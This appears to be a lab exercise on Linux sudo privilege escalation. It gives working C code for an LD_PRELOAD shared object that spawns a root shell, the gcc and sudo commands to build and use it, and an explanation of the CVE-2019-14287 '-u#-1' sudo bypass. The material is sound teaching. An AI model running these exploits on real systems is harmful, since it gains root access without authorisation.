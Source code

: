 ### Task
Take a look with `sudo -l`, which programs `john` has configured for sudo.
Search for these programs on [gtfobins](https://gtfobins.github.io/) and play around with them a bit.
Can you manage to gain root rights?

### LD_PRELOAD
LD_PRELOAD allows programs to use shared libraries (so-called shared objects). If the `env_keep` option is enabled, we can create a shared library and pass it to a program that we call with sudo. The library is then executed first. For example, such a library could spawn a root shell.

This C code spawns a root shell:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

The code can be compiled into a shared object:

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles -w
```

And pass it when calling a program with root rights.

```
sudo LD_PRELOAD=/home/john/shell.so find
```

### CVE-2019-14287
Sudo also allows with `sudo -u#<id> <command>` to execute a command with a certain user. However, the user must have the permission.
With `sudo -u#0 whoami`, whoami would be called with root rights (the ID of the root user is 0), provided the calling user has the permission to call whoami as root.
Until sudo in version < 1.8.28, there was a bug, which in combination with a misconfiguration allowed a program to be executed with root rights, although this was explicitly excluded in the configuration.
The configuration looks like this and allows the execution of the program (or all programs) as any other user than root:

```
<user> ALL=(ALL:!root) NOPASSWD: ALL
```


If the unprivileged user now calls the command with the id `-1`, sudo interprets this as `0`, but the configuration does not apply, because `-1` is not the id of `root`.
